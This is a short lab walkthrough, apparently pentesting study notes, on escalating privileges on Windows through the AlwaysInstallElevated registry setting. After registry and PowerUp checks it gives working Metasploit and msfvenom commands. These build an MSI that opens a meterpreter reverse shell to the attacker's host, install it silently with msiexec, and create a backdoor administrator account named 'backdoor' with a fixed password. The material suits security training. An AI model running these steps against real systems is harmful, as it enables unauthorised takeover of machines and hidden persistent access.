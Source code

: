 #Windows #PrivEsc #Registry #AlwaysInstallElevated #SimpleHTTPServer #msiexec #MSFvenom #metasploit #msfconsole #meterpreter 

## **Detection**  

Windows VM

1. Open command prompt and type: `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`  
2. From the output, notice that “`AlwaysInstallElevated`” value is 1.  
3. In command prompt type: `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
4. From the output, notice that “`AlwaysInstallElevated`” value is 1.
- Can run `PowerUp.ps1` and see this is vulnerable as well - Must open `cmd` at location of `PowerUp.ps1`
```
PS > powershell -ep bypass

PS > . .\PowerUp.ps1

PS > Invoke-AllChecks
```

## **Exploitation**

Kali VM

1. Open command prompt and type: `msfconsole`  
2. In Metasploit (msf > prompt) type: `use multi/handler`  
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`  
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`  
5. In Metasploit (msf > prompt) type: `run`  
6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi`  
7. Copy the generated file, `setup.msi`, to the Windows VM.  
- Metasploit exploit we can also use is `exploit/windows/local/always_install_elevated` need a session as user though

Windows VM

1.Place ‘`setup.msi`’ in ‘`C:\Temp`’.  
2.Open command prompt and type: `msiexec /quiet /qn /i C:\Temp\setup.msi`  
- Can exploit using `PowerUp.ps1`
```
Check output:

PS > Write-UserAddMSI
```
- If you use this exploit, click on "UserAdd" file created, create backdoor creds and assign to Administrator!
	- `backdoor:password123:Administrators`
	- `net localgroup administrators` - see the new account `backdoor`

Enjoy your shell! :)


